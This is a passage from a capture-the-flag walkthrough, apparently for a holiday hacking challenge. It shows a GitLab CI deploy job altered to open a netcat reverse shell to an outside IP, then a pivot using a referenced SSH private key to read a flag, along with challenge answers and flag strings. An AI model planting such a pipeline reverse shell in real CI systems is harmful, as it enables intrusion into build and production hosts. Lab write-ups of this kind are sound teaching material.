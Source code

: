 <pre><code class="bash">cat .gitlab-ci.yml 
stages:
  - deploy

deploy-job:      
  stage: deploy 
  environment: production
  script:
    - mknod /tmp/backpipe p
    - /bin/sh 0&lt;/tmp/backpipe | nc 172.18.0.99 4444 1&gt;/tmp/backpipe
    - rsync -e &quot;ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy&quot; --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/html
</code></pre>

<img src="{{ page.image-base | prepend:site.baseurl }}/03_0013_gitlab_yml.png" width="100%" alt="gitlab yml">

After that you have a reverse shell to the system (you can switch it to fullscreen with Ctrl+b+z) . To
find the ring you can use the information found in the rsync command. There is a private key
referenced. So take this to execute commands directly at the web server. The flag can be found at
`/flag.txt`. Cat the file and you can find the solution:

<img src="{{ page.image-base | prepend:site.baseurl }}/03_0014_pivot.png" width="100%" alt="Pivoting">

<img src="{{ page.image-base | prepend:site.baseurl }}/03_0015_solution_jolly_cicd.png" width="100%" alt="solution jolly cicd">

Enter the solution `oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT` in the objective text field to solve the challenge.

## 4 - Recover the Web Ring

To find the Web ring leave the Elfen Ring, go to right, down the ladder between the candy canes
and to the right.

### Naughty IP

You can find the solution if you search for the most log entries:

<img src="{{ page.image-base | prepend:site.baseurl }}/04_0001_naughty_ip_log_entries.png" width="100%" alt="IP log entries">

After entering the IP you will get 5 coins and the badge.

### Credential Mining

You have to search in the brute force of the login to find the first username tried. If you search for `www-
form` in the pcap file you can find the username:

<img src="{{ page.image-base | prepend:site.baseurl }}/04_0002_credential_mining.png" width="100%" alt="Credential Mining">

It’s `alice`

### 404 FTW
